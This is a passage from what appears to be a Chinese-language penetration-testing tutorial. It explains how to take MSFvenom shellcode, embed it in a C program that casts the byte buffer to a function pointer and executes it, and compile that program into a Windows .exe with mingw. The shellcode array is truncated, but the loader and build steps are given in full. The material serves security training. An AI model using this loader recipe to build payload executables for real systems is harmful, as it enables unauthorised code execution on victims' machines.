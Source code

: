 执行了上述命令后，MSFvenom 将创建 shellcode 文件。

现在，我们需要添加一些变量，以便使用 C 编程语言进行编译。使用文本编辑器或 nano 编辑刚刚创建的`MSFV-shellcode.c`文件。

添加以下行，用**标记：

```
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\xbd\xa1\xe2\xe6\x8b\xd9\xeb\xd9\x74\x24\xf4\x5f\x2b\xc9\x66"
"\xb9\x1b\x01\x83\xef\xfc\x31\x6f\x12\x03\x6f\x12\x43\x17\x5c"
"\x54\x5a\x66\x22\xb1\x95\x4e\x51\x62\xd1\x2e\xa9\xa3\x7f\x68"
"\xd9\x32\xfc\x65\x1e\x05\x55\x6b\xdc\x31\x97\xb0\xa9\x85\xdb"
--snip--

int main ()
{
 printf("Shellcode Length: %d\n", strlen(buf));
 int (*ret)() = (int(*)())buf;

 ret();
}
```

在上述代码中，我剪切了 shellcode，以便可见所需的代码行。在您的 shellcode 文件中，`unsigned char buf [] =`行下面将有更多字符。

在上述代码中，我们添加了以下组件：

| `#include<stdio.h>` | 在这里，我们调用一个库，该库涉及输入和输出函数。 |
| --- | --- |
| `#include<string.h>` | 在这里，我们调用一个库来操作字符串，因为我们使用`strlen`函数来获取字符串长度。 |
| `int main` | 此字符串用于声明一个函数。在 C 编程语言中，`main`下的函数是程序加载时运行的函数。 |
| `printf("Shellcode Length: %d\n` | 此行用于发送打印输出并掩盖 shellcode 长度。 |

| `int (*ret)() = (int(*)())buf;`

`ret ()` | `int (*ret)()`用于声明一个指针，而`=(int(*)())buf;`是将要使用的指针。`ret()`调用该指针，然后指向运行的 shellcode。 |

添加了额外的代码后，我们现在可以将其编译为可执行文件（请参见以下屏幕截图）。这是使用`mingw32`编译器完成的，该编译器在安装 Veil Framework 时已安装。如果未安装，可以使用以下命令进行安装：

```
apt install mingw-w64
```

要将 shellcode 编译为可执行文件，请使用以下命令：

```
x86_64-w64-mingw32-gcc MSFV-shellcode.c -o MSFV-shellcode.exe 
```

我们得到以下输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/75202425-ab4d-48e8-9d87-660c5000de56.png)
